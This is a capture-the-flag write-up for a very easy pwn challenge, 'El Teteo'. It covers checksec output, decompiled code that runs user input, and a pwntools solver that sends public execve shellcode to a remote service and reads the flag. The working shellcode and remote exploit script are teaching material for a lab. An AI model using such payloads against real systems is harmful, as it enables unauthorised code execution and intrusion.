

    	<font size="10">El Teteo</font>

​		16<sup>th</sup> September 2024 / Document No. DYY.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=green>Very Easy</font>

​		Classification: Official

 


# Synopsis

El Teteo is a very easy difficulty challenge that features `ret2shellcode`.

# Description

El Teteo, a mischievous ghostly djinni born with a party spirit. You have one chance to summon it and make your wish—but only if it’s in the mood to grant it.

## Skills Required

- Basic C.

## Skills Learned

- `ret2shellcode`.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec 
Arch:     amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX unknown - GNU_STACK missing
PIE:        PIE enabled
Stack:      Executable
RWX:        Has RWX segments
RUNPATH:    b'./glibc/'
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ❌      | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 



We already see that when we enter something, the program crashes with "Illegal Instruction". This means that the program tries to execute something that is not a valid instruction. We also see that `NX` is disabled, meaning we can execute arbitrary code. 

### Disassembly

Starting with `main()`:

```c
00001366  int32_t main(int32_t argc, char** argv, char** envp)

00001366  {
0000137e      void* fsbase;
0000137e      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001392      cls();
0000139e      void* const var_a8 = "\x1b[1;33m";
000013ac      void* const var_a0 = "\x1b[1;36m";
000013ba      void* const var_98 = "\x1b[1;32m";
000013c8      void* const var_90 = "\x1b[1;31m";
000013d6      void* const var_88 = "\x1b[1;34m";
000013e1      void* const var_80 = "\x1b[1;35m";
000013ec      void* const var_78 = "\x1b[1;37m";
000013fc      srand(time(nullptr));
00001448      printf(&data_204e, &var_a8[((int64_t)(rand() % 6))]);
0000147a      int64_t rax_22 = &var_a8[((int64_t)(rand() % 6))];
000014b6      int64_t rbx = &var_a8[((int64_t)(rand() % 6))];
000014f2      int64_t rdi_1 = &var_a8[((int64_t)(rand() % 6))];
0000152e      int64_t rsi_11 = &var_a8[((int64_t)(rand() % 6))];
0000156a      int64_t rcx_24 = &var_a8[((int64_t)(rand() % 6))];
000015a6      int64_t rdx_7 = &var_a8[((int64_t)(rand() % 6))];
000015e2      int64_t r10 = &var_a8[((int64_t)(rand() % 6))];
0000161e      int64_t r11 = &var_a8[((int64_t)(rand() % 6))];
0000165a      int64_t r8 = &var_a8[((int64_t)(rand() % 6))];
00001696      int64_t r9 = &var_a8[((int64_t)(rand() % 6))];
000016d2      int64_t r14 = &var_a8[((int64_t)(rand() % 6))];
0000170e      int64_t r15 = &var_a8[((int64_t)(rand() % 6))];
0000174a      int64_t r12 = &var_a8[((int64_t)(rand() % 6))];
00001786      int64_t r13 = &var_a8[((int64_t)(rand() % 6))];
000017c2      int64_t rax_149 = &var_a8[((int64_t)(rand() % 6))];
000017fe      int64_t rbx_1 = &var_a8[((int64_t)(rand() % 6))];
0000183a      int64_t rdi_2 = &var_a8[((int64_t)(rand() % 6))];
00001876      int64_t rsi_40 = &var_a8[((int64_t)(rand() % 6))];
000018b2      int64_t rcx_62 = &var_a8[((int64_t)(rand() % 6))];
000018ee      int64_t rdx_43 = &var_a8[((int64_t)(rand() % 6))];
0000192a      int64_t r10_1 = &var_a8[((int64_t)(rand() % 6))];
00001966      int64_t r11_1 = &var_a8[((int64_t)(rand() % 6))];
000019a2      int64_t r8_1 = &var_a8[((int64_t)(rand() % 6))];
000019de      int64_t r9_1 = &var_a8[((int64_t)(rand() % 6))];
00001a1a      int64_t r14_1 = &var_a8[((int64_t)(rand() % 6))];
00001a56      int64_t r15_1 = &var_a8[((int64_t)(rand() % 6))];
00001a92      int64_t r14_2 = &var_a8[((int64_t)(rand() % 6))];
00001ac7      int64_t r15_2 = &var_a8[((int64_t)(rand() % 6))];
00001afc      int64_t r13_1 = &var_a8[((int64_t)(rand() % 6))];
00001b31      int64_t r12_1 = &var_a8[((int64_t)(rand() % 6))];
00001b66      int64_t rbx_2 = &var_a8[((int64_t)(rand() % 6))];
00001c63      printf(&data_2058, &var_a8[((int64_t)(rand() % 6))], rbx_2, r12_1, r13_1, r15_2, r14_2, r15_1, r14_1, r9_1, r8_1, r11_1, r10_1, rdx_43, rcx_62, rsi_40, rdi_2, rbx_1, rax_149, r13, r12, r15, r14, r9, r8, r11, r10, rdx_7, rcx_24, rsi_11, rdi_1, rbx, rax_22);
00001c79      printstr("[!] I will do whatever you want,…");
00001c7e      int64_t shellcode;
00001c7e      __builtin_memset(&shellcode, 0, 0x20);
00001caf      read(0, &shellcode, 0x1f);
00001cbd      &shellcode();
00001cc8      *(uint64_t*)((char*)fsbase + 0x28);
00001cc8      
00001cd1      if (canary == *(uint64_t*)((char*)fsbase + 0x28))
00001ce6          return 0;
00001ce6      
00001cd3      __stack_chk_fail();
00001cd3      /* no return */
00001366  }
```

If we skip the "colors", the actual code is:

```c
00001c79      printstr("[!] I will do whatever you want,…");
00001c7e      int64_t shellcode;
00001c7e      __builtin_memset(&shellcode, 0, 0x20);
00001caf      read(0, &shellcode, 0x1f);
00001cbd      &shellcode();
```

The program will execute whatever we store in the "shellcode" buffer. Taking that into consideration and the fact that `NX` is disabled, we can execute code and get shell. [This](https://shell-storm.org/shellcode/files/shellcode-806.html) payload works like a charm.

```bash
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
```

# Solution

```python
#!/usr/bin/python3
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './el_teteo' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP} {PORT}\n')

# Shellcode from https://shell-storm.org/shellcode/files/shellcode-806.html
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

# Send shellcode
r.sendlineafter('>', sc)

# Get flag
pause(1)
r.sendline('cat flag*')
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

